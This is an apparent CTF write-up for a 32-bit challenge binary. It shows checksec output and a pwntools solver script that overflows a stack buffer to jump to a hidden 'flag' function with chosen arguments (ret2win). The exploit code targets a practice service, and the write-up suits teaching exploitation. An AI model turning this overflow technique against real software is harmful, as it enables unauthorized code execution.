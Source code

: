 # HIDDEN FLAG FUNCTION PARAMETERS [EASY]

## Description

> Can you control this applications flow to gain access to the hidden flag function with the correct parameters?

## Short Solution Description / Tags

Classic ret2win with argument

## Solution

```console
$ file hidden_flag_function_with_args
hidden_flag_function_with_args: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=59a58a86ad899fc4e3efd3933d9d2f7b6b627c03, not stripped

$ checksec hidden_flag_function_with_args
[*] '/root/Desktop/hidden_flag_function_with_args'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

solver.py

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "split-window", "-h"]

elf = ELF("./hidden_flag_function_with_args", checksec=False)
win = elf.sym["flag"]


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("8ae5e00e1a3139b7.247ctf.com", 50276)

    elif args.GDB:
        gdbscript = """
        b flag
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    io = conn()

    payload = (
        b"A" * 140 + p32(win) + p32(0x0) + p32(0x1337) + p32(0x247) + p32(0x12345678)
    )
    io.sendlineafter(b"You can ask for one though:", payload)

    io.interactive("")


if __name__ == "__main__":
    main()
```

